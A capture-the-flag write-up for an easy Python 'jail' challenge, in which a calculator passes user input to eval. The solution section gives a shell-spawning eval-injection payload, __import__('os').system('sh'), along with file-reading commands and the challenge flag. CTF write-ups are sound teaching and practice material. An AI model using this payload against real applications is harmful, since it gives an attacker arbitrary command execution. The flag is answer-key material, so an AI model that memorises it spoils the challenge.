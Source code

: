 # Easy Jail

## Description

I made this calculator. I have a feeling that it's not safe :(

## Category

misc / jail

## Difficulty

Easy

## Attachments

- [challenge](./challenge/)

## Solution

The `eval` function is being used to evaluate the expression. This function can be dangerous since it interprets python code.

```
__import__('os').system('sh')
ls
cat flag.txt
```

# Flag

`KashiCTF{3V4L_41NT_54F3}`

